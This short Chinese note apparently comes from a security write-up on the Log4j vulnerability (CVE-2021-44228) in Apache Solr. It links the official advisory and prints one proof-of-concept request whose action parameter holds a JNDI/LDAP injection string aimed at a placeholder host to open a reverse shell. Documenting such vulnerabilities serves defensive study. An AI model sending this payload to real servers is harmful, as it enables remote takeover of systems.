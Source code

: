 ## apache solr
Apache Solr 是 Apache Lucene 项目的开源企业搜索平台。其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成，以及富文本（如 Word、PDF）的处理。当然也是此次漏洞的受害者。

<font style="color:rgb(92, 92, 92);">官方通告：</font>[<font style="color:rgb(255, 64, 129);">https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228</font>](https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228)

Apache Solr 的 POC 都已经传遍了世界，如下：

/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}&wt=json

